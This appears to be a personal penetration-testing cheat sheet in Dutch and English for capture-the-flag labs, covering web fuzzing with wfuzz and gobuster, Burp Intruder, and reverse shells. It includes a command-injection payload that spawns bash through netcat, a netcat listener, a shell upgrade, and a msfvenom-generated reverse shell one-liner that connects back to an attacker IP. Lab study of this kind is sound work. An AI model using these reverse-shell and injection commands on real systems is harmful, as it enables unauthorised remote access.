 ### Iterative command example
`for i in $(seq 1 20); do echo -n “$i: “; curl -s http://10.10.10.10/index.php/$i/ | grep ‘[title]’; done`

### Wfuzz
- voorbeeld: `wfuzz -c -z file,big.txt http://shibes.xyz/api.php?breed=FUZZ`
- voorbeeld: `wfuzz -c -z file,mywordlist.txt -d “username=FUZZ&password=FUZZ” -u http://shibes.thm/login.php`
- handige lijsten: https://github.com/danielmiessler/SecLists/tree/master/Fuzzing

### Gobuster
- voorbeeld: `gobuster dir -u http://example.com -w wordlist.txt -x php,txt,html`
- handige lijsten: 

### Vega
- website vulnerability scanner
- tutorial: https://www.youtube.com/watch?v=1HDC6fKsKYE

### Burp Suite
- change hostname with Burp sometimes works `Host: cronos.htb`

#### Burp Intruder
- Sniper attack - probeert alle in een wordlist op de plek tussen §
- Cluster bomb attack - itereert over meerdere lijsten (zoals username/ password)

### Reverse Shells
- upload reverse shell (/usr/share/webshells in Kali)
- verander IP addres en port nummer
- op je eigen systeem `sudo nc -lvnp [port]`
- maak een HTTP request naar de shell om hem te runnen

#### Shell upgrade
- `python3 -c 'import pty;pty.spawn("/bin/bash")'`
- `export TERM=xterm`
- Background: `Ctrl + Z`
- `stty raw -echo; fg`
- Note that if the shell dies, any input in your own terminal will not be visible. To fix this, type `reset` and press enter.

#### Test command execution
- start tcpdump listener for ICMP: `sudo tcpdump ip proto \\icmp -i tun0`
- run command on target: `ping [local tun0 ip] -c 1`

#### Reverse Shell with command injection
- `;nc -e /bin/bash`

#### Generate reverse shell command for Telnet
- `msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`
- result: `mkfifo /tmp/uxto; nc 10.9.222.201 4444 0</tmp/uxto | /bin/sh >/tmp/uxto 2>&1; rm /tmp/uxto`
